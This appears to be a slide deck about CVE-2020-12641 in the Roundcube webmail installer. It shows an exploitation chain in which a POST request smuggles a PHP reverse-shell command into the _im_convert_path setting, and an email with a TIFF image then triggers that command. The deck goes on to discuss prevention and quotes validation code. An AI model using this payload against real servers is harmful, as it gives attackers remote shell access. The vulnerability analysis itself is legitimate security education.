 
## Exploitation chain

* The attacker sends a `POST` request to the installer:

  ```
  POST /roundcube/installer/index.php HTTP/1.1
  Host: 192.168.243.153
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 1049

  _step=2&_product_name=Roundcube+Webmail&***TRUNCATED***&submit=UPDATE+CONFIG&
  _im_convert_path=php+-r+'$sock%3dfsockopen("127.0.0.1",4444)%3b
  exec("/bin/bash+-i+<%263+>%263+2>%263")%3b'+%23
  ```

* The attacker sends an email containing an image of non-standard format (e.g., TIFF).
* Roundcube will try to convert the image to JPG.
* The command stored in `_im_convert_path` will be executed.
* The attacker will have a reverse shell.

---

## [CVE-2020-12641](https://nvd.nist.gov/vuln/detail/CVE-2020-12641)

* Many unsanitized configuration items (e.g., `_im_convert_path`)
* Arbitrary code execution
* 9.8 CVSS
* 8.12% EPSS (as per 12 March 2024)
* [Used by APT28 to compromise Ukrainian organisations' servers](https://securityaffairs.com/147681/apt/apt28-hacked-roundcube-ukraine.html)
* Added by CISA in the [Known Exploited Vulnerabilities Catalogue](https://www.cisa.gov/known-exploited-vulnerabilities-catalog)

---

# But ... Was it preventable?

---

# Yes, but ..

---

# Not with stock linters or scanners.

---

```php
private static function getCommand($opt_name)
{
    static $error = [];

    $cmd = rcube::get_instance()->config->get($opt_name);

    if (empty($cmd)) {
        return false;
    }

    if (preg_match('/^(convert|identify)(\.exe)?$/i', $cmd)) {
        return $cmd;
    }
```